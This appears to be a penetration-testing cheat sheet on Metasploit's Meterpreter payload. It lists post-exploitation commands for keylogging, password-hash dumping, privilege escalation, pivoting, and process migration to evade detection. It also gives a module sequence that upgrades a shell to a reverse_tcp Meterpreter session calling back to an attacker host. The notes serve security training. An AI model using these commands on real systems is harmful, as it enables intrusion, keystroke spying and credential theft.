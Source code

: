 Meterpreter is an advanced and flexible payload used in **Metasploit Framework**, designed for post-exploitation tasks after successfully exploiting a target system. It allows attackers (or ethical hackers) to interact with and control the compromised system remotely, offering numerous features for pivoting, escalation, and lateral movement.

## Common Meterpreter Commands

1. **Basic Commands**:
- `sysinfo`: Displays system information (OS, architecture, logged-in users).
- `getuid`: Displays the current user ID.
- `shell`: Opens a system shell for further command execution.
- `background`: Sends the current session to the background, allowing you to use other Metasploit commands.
2. **File Management**:
- `upload <local_path> <remote_path>`: Uploads files to the target system.
- `download <remote_path> <local_path>`: Downloads files from the target system.
3. **Network & Post-Exploitation**:
- `portfwd`: Forwards ports between the target machine and the attacker's machine.
- `route`: Manages routes for pivoting through compromised systems to reach other targets on the same network.
4. **Privilege Escalation**:      
- `getsystem`: Attempts to escalate privileges to SYSTEM.
- `migrate`: Migrates the Meterpreter session to another process (often a more stable one).
5. **Keylogging**:    
- `keyscan_start`: Starts logging keystrokes on the victim's system.
- `keyscan_dump`: Displays the captured keystrokes.
6. **Password Dumping**:
- `hashdump`: Dumps the hashes of the local user accounts from the target system. This is useful for offline cracking of password hashes.

## Process migration
**Process migration** in exploitation involves moving a Meterpreter session from the process where the initial payload is running to a more stable or advantageous process on the target system. This is typically done to maintain session stability, evade detection, or elevate privileges. When migrating to a process like `lsass.exe`, the session inherits the process's privileges, which are often at the highest level (NT AUTHORITY\SYSTEM).

In contrast, migrating to other processes, such as `explorer.exe`, may not elevate privileges but can serve as a means of camouflaging the session within a less monitored or critical process. 

Privilege escalation can also be achieved using the `getsystem` command after migrating or stabilizing the session. This command attempts various techniques to elevate the session to NT AUTHORITY\SYSTEM privileges. 

#### Execution
1. **Search for a Specific Process**
```bash
meterpreter > pgrep lsass
# Or
meterpreter > pgrep explorer
# Or
meterpreter > ps
```
This will return the PID of the `lsass.exe` or `explorer.exe` process.

2. **Migrate to the Desired Process**
```bash
meterpreter > migrate <PID>
```


## Ensuring correct payload
Verify that you are using the correct payload that matches the architecture of the target system (32-bit vs. 64-bit). For instance:
- For 32-bit systems, use `windows/meterpreter/reverse_tcp`.
- For 64-bit systems, use `windows/x64/meterpreter/reverse_tcp`.

If the wrong payload is used, you may establish a connection but fail to create the Meterpreter session, as the payload will not be compatible with the target architecture.

## Upgrading Command Shells to Meterpreter Shells 

The `shell_to_meterpreter` module in Metasploit is specifically designed to upgrade a basic command shell to a Meterpreter shell. This method works by injecting a Meterpreter payload into the target system.

```bash
# Exit from the shell session using Ctrl+Z
use post/multi/manage/shell_to_meterpreter
# Specify the session ID of the command shell you want to upgrade.
set session <session_id>
# Choose an appropriate Meterpreter payload.
set payload windows/meterpreter/reverse_tcp
set lhost <your_ip>
set lport <your_port>
run
```

Another easy way of upgrading a command shell to a Meterpreter shell is the following one:
```bash
# Exit from the shell session using Ctrl+Z
sessions -u <session_id>
```